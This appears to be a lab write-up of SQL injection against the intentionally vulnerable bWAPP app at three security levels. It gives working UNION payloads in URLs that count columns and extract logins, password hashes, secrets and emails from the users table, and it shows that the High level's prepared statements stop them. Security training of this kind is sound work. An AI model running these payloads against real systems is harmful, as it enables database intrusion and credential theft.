




# Module: SQL Injection (GET/Select) — Low Security

Step 1: Baseline / Normal Request
```bash
http://ip_address/bWAPP/sqli_2.php?movie=1&action=go
```


Result: Normal application behavior — selecting a movie ID returns expected data (Title: "G.I. Joe: Retaliation", Release: 2013, Character: Cobra Commander, Genre: action).

Step 2: Determine Column Count (via ORDER BY)
Incrementally tested ORDER BY values against the query:
```bash
movie=-1 order by 7-- -   → No error
movie=-1 order by 8-- -   → Error: Unknown column '8' in 'order clause'
```

Report: The underlying query returns 7 columns.

Step 3: Map Columns to Visible Output Fields
```bash
http://ip_address/bWAPP/sqli_2.php?movie=-1+union+select+1,2,3,4,5,6,7+from+bWAPP.users-- -&action=go
```


Step 4: Extract Sensitive Data via UNION
```bash
http://ip_address/bWAPP/sqli_2.php?movie=-1+union+select+1,login,password,secret,email,6,7+from+bWAPP.users+order+by+4+desc+&action=go
```


# Module: SQL Injection (GET/Select) — Medium Security
Step 1: Switch Security Level
Set bWAPP security level dropdown to Medium → click Set → confirm "Current: Medium"

Step 2: Re-test the numeric UNION payload from Low
```bash
http://ip_address/bWAPP/sqli_2.php?movie=-1+union+select+1,2,3,4,5,6,7+from+bWAPP.users-- -&action=go
```

Result: Table numbers displayed successfully (same as Low) — confirms numeric-context UNION injection is not blocked at Medium.

Step 3: Test quote-based injection (to show contrast with Low)
```bash
http://ip_address/bWAPP/sqli_2.php?movie=1' union select 1,2,3,4,5,6,7 from bWAPP.users-- -&action=go
```

Result: Medium blocks quotes (`'` → `\'`, breaks the query) but the numeric UNION payload still works with no quote needed, so full data extraction succeeds exactly like Low.

Step 4: Extract data using confirmed column mapping
```
http://ip_address/bWAPP/sqli_2.php?movie=-1+union+select+1,login,password,secret,email,6,7+from+bWAPP.users+order+by+4+desc+&action=go
```

Result: Same credential data extracted as Low — username, password hash, email, secret question.

Module: SQL Injection (GET/Select) — High Security 
Step 1: Switch Security Level
Set bWAPP security level dropdown to High → click Set → confirm "Current: High"

Step 2: Numeric UNION payload
```bash
http://ip_address/bWAPP/sqli_2-ps.php?movie=-1+union+select+1,2,3,4,5,6,7+from+bWAPP.users--%20-&action=go
```

Result: "No movies were found!" — no SQL error, no injected data returned. UNION structure had no effect on query execution.

Step 3: Quote-based payload
```bash
http://ip_address/bWAPP/sqli_2-ps.php?movie=1'&action=go
```

Result: Normal application output returned (G.I. Joe: Retaliation, 2013, Cobra Commander, action) — the single quote was treated as a literal character with no syntax error, unlike the visible \' escaping error seen at Medium.

This confirms the injection point is not exploitable at High security level, and no secondary injection surface was identified through the tested header.
